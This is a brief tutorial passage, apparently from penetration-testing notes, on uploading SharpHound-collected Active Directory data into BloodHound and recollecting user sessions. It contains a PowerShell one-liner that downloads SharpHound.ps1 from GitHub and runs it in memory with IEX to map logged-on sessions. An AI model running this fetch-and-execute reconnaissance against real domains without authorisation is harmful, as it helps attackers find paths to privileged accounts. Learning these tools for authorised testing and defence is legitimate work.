



Upload Data Collected
Upload of the Data CollectedRemember that to do that you need first
install BloodHound and Neo4jThe data collected before is been saved in a .zip file, we have to upload this file on
BloodHound  →
After you have uploaded the data you need to click on “Refresh Database(DB) Stats”
If not Sessions are found, we can run another time a Data Collection with “-ConnectionMethod”
◇ Session: Just does user session collection. You will likely couple this with the –Loop option. See SharpHound examples below for more info on that.
◇ LoggedOn: Does session collection using the privileged collection method. Use this if you are running as a user with local admin rights on lots of systems for the best user session data
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1 ');Invoke-BloodHound -CollectionMethod LoggedOn -VerboseBibliography:
•
https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html